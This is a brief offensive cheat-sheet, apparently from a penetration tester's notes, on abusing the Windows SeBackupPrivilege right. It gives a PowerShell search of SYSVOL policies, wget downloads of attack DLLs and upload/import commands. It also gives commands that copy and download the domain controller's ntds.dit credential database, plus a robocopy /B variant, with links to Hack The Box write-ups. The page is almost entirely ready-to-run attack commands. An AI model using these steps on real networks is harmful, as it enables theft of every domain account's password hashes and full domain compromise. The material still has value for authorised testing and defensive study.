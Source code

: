 # SeBackupPrivilege

Search for `SeBackupPrivilege` through GPO policies:

```
$ gci -Path \\$ENV:USERDNSDOMAIN\sysvol\$ENV:USERDNSDOMAIN\Policies\ -Recurse -File  -ErrorAction SilentlyContinue | Select-String "SeBackupPrivilege"
```




## SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)
* [https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html#priv-svc_backup--administrator)

```
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeCmdLets.dll
wget https://github.com/giuliano108/SeBackupPrivilege/raw/master/SeBackupPrivilegeCmdLets/bin/Debug/SeBackupPrivilegeUtils.dll

upload SeBackupPrivilegeCmdLets.dll
upload SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
Copy-FileSeBackupPrivilege W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit -Overwrite
download ntds.dit
```




## robocopy

* [https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html#read-as-system)

```
PS > cmd /c where robocopy
PS > robocopy /B W:\Windows\NTDS\ntds.dit C:\Users\snovvcrash\Documents\ntds.dit
```
